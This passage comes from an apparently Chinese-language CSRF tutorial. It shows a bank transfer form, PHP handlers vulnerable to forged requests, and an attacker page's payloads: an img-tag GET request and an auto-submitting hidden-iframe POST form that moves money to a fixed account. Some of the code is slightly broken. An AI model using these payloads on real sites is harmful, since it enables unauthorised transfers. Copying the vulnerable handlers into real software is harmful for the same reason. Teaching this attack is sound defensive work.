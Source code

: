 结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作......

示例2

为了杜绝上面的问题，银行决定改用POST请求完成转账操作。

银行网站A的WEB表单如下：
```
<form action="Transfer.php" method="POST">
    <p>ToBankId: <input type="text" name="toBankId" /></p>
    <p>Money: <input type="text" name="money" /></p>
    <p><input type="submit" value="Transfer" /></p>
</form>
```

后台处理页面Transfer.php如下：
```
<?php
    session_start();
    if (isset($_REQUEST['toBankId'] &&　isset($_REQUEST['money']))
    {
        buy_stocks($_REQUEST['toBankId'],　$_REQUEST['money']);
    }
?>
```

危险网站B，仍然只是包含那句HTML代码：
```
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```

和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....和示例1一样，你再次没了1000块～T_T，这次事故的原因是：银行后台使用了$_REQUEST去获取请求的数据，而$_REQUEST既可以获取GET请求的数据，也可以获取POST请求的数据，这就造成了在后台处理程序无法区分这到底是GET请求的数据还是POST请求的数据。在PHP中，可以使用$_GET和$_POST分别获取GET请求和POST请求的数据。在JAVA中，用于获取请求数据request一样存在不能区分GET请求数据和POST数据的问题。

示例3

经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用$_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：
```
<?php
    session_start();
    if (isset($_POST['toBankId'] &&　isset($_POST['money']))
    {
        buy_stocks($_POST['toBankId'],　$_POST['money']);
    }
?>
```

然而，危险网站B与时俱进，它改了一下代码：
```
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
```